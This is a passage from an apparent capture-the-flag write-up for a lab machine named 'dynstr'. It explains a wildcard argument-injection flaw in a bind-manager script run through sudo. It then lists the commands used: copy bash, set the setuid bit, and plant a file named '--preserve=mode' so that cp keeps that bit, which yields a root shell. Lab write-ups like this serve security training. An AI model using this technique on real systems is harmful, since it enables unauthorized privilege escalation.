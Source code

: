 ```bash
		    echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
		    systemctl status bind9
	    else
		    echo "[+] Restart of bind9 via systemctl succeeded."
	    fi
    fi

```

The vulnerable code is `cp .version * /etc/bind/named.bindmgr/` and this can be used to inject commands for example additional flags for the `cp` command Commands

```bash
bindmgr@dynstr:/tmp/soviet$ echo "2137" > .version #this is needed for the script to run
bindmgr@dynstr:/tmp/soviet$ cp /bin/bash soviet # Copied bash and renamed it to soviet
bindmgr@dynstr:/tmp/soviet$ chmod +s soviet # add setuid bit to the bash
bindmgr@dynstr:/tmp/soviet$ echo > "--preserve=mode" # this inject the --preserve flag with value mode and this prevents from dropping setuid bit
bindmgr@dynstr:/tmp/soviet$ sudo /usr/local/bin/bindmgr.sh # running script
```

<figure><img src="../../.gitbook/assets/Pasted_image_20210714001114.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/hacker_cat.gif" alt=""><figcaption></figcaption></figure>
